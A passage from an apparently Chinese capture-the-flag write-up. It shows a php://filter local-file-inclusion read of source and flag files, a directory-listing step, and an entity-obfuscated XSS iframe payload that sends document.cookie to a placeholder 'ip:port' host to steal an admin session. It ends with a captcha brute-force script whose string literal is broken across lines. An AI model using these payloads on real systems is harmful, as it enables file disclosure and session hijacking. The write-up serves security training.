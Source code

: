 发现提示，其实右击查看源代码也可以看到..

![](http://ww1.sinaimg.cn/large/007F8GgBly1g1yuaaon8fj30qf0ewjs7.jpg)

base64解码后得到dir.php

读dir.php

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=dir.php

```
<?php
$a = @$_GET['dir'];
if(!$a){
$a = '/tmp';
}
var_dump(scandir($a));
```

得知该文件可以列目录，尝试列目录

> http://61.164.47.198:10000/dir.php?dir=/

![](http://ww1.sinaimg.cn/large/007F8GgBly1g1yucp71wyj31gy0a9abh.jpg)

这样得到ffffflag_1s_Her4文件

使用file读取，得到flag

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=/ffffflag_1s_Her4

### Breakout

题目地址：http://61.164.47.198:10001/

打开后是一个登录界面，随意输入账号密码，即可登录进去，登录后界面如下：

![](http://ww1.sinaimg.cn/large/007F8GgBly1g1z20yr14hj31a70n70ui.jpg)

第一个子页面可以留言评论,第二个子页面是将某个链接发送给管理员,管理员会携带cookie查看该页面,第三个子页面是执行命令和清除留言,尝试直接输入命令执行,提示说要有管理员权限才可以执行命令.到这里,很显然这是一个xss漏洞盗取管理员cookie然后登录管理员账号去执行命令.

使用如下payload绕过过滤

```
<iframe src="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:window.location.href='http://ip:port/?a='+document.cookie"
```

然后在report哪里提交

> http://61.164.47.198:10001/main.php

有个验证码，爆破脚本如下

```
import hashlib


def md5(key):
    m = hashlib.md5()
    m.update(key.encode('utf-8'))
    return m.hexdigest()


for i in range(1000000000):
    if md5(str(i))[0:6] == ' b0f446
':
        print(i)
        break
```